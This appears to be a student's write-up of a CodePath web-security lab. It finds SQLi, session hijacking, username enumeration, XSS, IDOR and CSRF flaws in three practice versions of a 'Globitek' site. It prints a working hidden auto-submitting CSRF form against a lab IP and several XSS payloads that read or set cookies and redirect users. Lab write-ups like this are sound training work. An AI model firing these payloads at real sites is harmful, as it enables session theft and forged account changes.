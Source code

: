 # Week9Codepath


Time spent: 3 hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: SQL Injection. Reason: Developer forgot to properly sanitize salesperson.php query.

<img src='sqli.gif' title='SQLI'/>

Vulnerability #2: Session Hijacking/Fixation. Reason: Website does not check if user-agent is the same as the one used when first user login, cookie set without HttpOnly and secure flag, and PHPSESSID is not regenerated and is allowed to be a year old.

<img src='sessionhijacking.gif' title='Session Hijacking/Fixation'/>


## Green

Vulnerability #1: Username Enumeration. Reason: Developer forgot to keep span tag class the same when username is or is not found, leading to vulnerability. 

<img src='userenumeration.gif' title='Username Enumeration'/>

Vulnerability #2: Cross-Site Scripting. Reason: Detected that Stored XS Script was run in admin feedback panel.

<img src='xss_.gif' title='Cross-Site Scripting'/>


## Red

Vulnerability #1: Insecure Direct Object Reference. Reason: Developer forgot to check if object reference request is made public or not. Other two websites properly redirected user to public/territories folder.

<img src='idor.gif' title='IDOR'/>

Vulnerability #2: Cross-Site Request Forgery. Reason: Developer forgot to check for CSRF token on salesperson edit form submit, check for domain name, and disallow loading responses onto iframes. 

<img src='csrf.gif' title='Cross-Site Request Forgery'/>

Script used:

```
<!DOCTYPE html>
<html>

<head>
  <title>Real Form</title>
  <meta http-equiv="content-type" content="text/html; charset=utf-8" />
</head>

<body onload="document.getElementById('f').submit();">
  <form action="https://104.197.73.39/red/public/staff/salespeople/edit.php?id=5" method="post" id="f" style="display: none;" target="hidden_results">
    <input name="first_name" value="Malcom" type="text">
    <input name="last_name" value="XX" type="text">
    <input name="phone" value="555-101-1080" type="text">
    <input name="email" value="bthepwr@salesperson.com" type="text">
  </form>
  <iframe name="hidden_results" style="display: none;"></iframe>
</body>

</html>
```

# Bonus Objective 2

- It is possible to redirect a user to another website by entering the following code in the feedback textbox Green's contact form `<script>window.location.href = "http://example.com";</script>` then submitting.
- The cookie single cookie, PHPSESSID, used throughout the website, it is set using HttpOnly, which prevents it from being accessed in javascript on modern web browsers, but older browsers (Firefox < 3, IE < 6 SP1) might be still be vulnerable, viewable by using XSS `<script>alert(document.cookie);</script>` or `<script>var xmlhttp = new XMLHttpRequest();
  xmlhttp.onreadystatechange = function() {
    if (this.readyState == 4 && this.status == 200) {
      alert(this.getAllResponseHeaders());
    }
  };
  xmlhttp.open("GET", “/“, true);
  xmlhttp.send();</script>`.
- It is possible to set a cookie by using XSS, `<script>document.cookie="username=something";</script>`, in Green's contact form.
 
Testing Bonus Objective 2 

<img src='xss.gif' title='Cross-Site Scripting'/>

## Notes

